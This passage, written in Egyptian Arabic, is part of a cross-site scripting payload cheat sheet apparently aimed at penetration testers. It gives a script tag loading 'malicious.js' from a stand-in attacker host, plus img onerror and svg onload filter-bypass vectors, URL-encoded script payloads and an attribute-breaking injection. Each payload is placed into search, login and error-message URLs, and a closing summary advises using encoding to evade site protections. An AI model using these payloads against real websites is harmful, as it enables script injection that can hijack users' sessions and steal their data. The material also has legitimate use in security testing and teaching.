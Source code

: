 ##### **3. Payload لتحميل سكربت خارجي:**
```html
<script src="attacker.com/malicious.js"></script>
```
- في رسالة خطأ أو URL:
  ```
  example.com/error?message=<script src="attacker.com/malicious.js"></script>
  ```

##### **4. Payload لتجاوز الفلاتر:**
لو الموقع بيمنع `<script>`، جرب:
```html
<img src=x onerror=alert('XSS')>
```
- في حقل البحث:
  ```
  example.com/search?query=<img src=x onerror=alert('XSS')>
  ```

أو:
```html
<svg onload=alert('XSS')>
```
- في فورم اللوجن:
  ```
  example.com/login?username=<svg onload=alert('XSS')>
  ```

##### **5. Payload مشفر (Encoded):**
لو الموقع بيعمل Encode، استخدم URL Encoding:
- Payload:
  ```html
  <script>alert('XSS')</script>
  ```
- بعد الـ Encoding:
  ```
  %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
  ```
- في الـ URL:
  ```
  example.com/search?query=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
  ```

##### **6. Payload لرسايل الخطأ:**
لو رسالة الخطأ بتعرض المدخل، جرب:
```html
"><script>alert('XSS')</script>
```
- في حقل البحث:
  ```
  example.com/search?query="><script>alert('XSS')</script>
  ```
- ده بيحاول يكسر بنية الـ HTML.

---

**خلاصة بالعامية:**
الـ Payloads دي زي الأدوات في شنطة الـ Pentester. لازم تختار المناسب لكل مكان (بحث، خطأ، لوجن). لو الموقع حاطط حماية، استخدم أكواد ذكية زي `<img>` أو Encoding عشان تخدّعه.

---